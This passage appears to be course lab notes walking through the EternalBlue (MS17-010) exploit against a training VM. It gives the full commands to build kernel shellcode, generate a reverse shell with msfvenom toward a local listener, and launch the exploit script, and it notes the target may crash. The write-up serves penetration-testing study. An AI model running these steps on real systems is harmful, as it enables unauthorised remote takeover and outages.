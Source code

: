 > ❗ The machine can crash with this attack.

```bash
cd ~/tcm/peh/blue/AutoBlue-MS17-010/shellcode
./shell_prep.sh
# kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
# y
# LHOST for reverse connection:
# 192.168.31.131
# LPORT you want x64 to listen on:
# 8888
# LPORT you want x86 to listen on:
# 2222
# Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
# 1
# Type 0 to generate a staged payload or 1 to generate a stageless payload
# 0

cd ..
./listener_prep.sh
# Starts a listener
```

```bash
# Open another Terminal
cd ~/tcm/peh/blue/AutoBlue-MS17-010/
python2 eternalblue_exploit7.py 192.168.31.132 shellcode/sc_all.bin
```

![Blue VM BSOD](3-eth-hackassets/2024-07-13_23-52-14_611.png)

---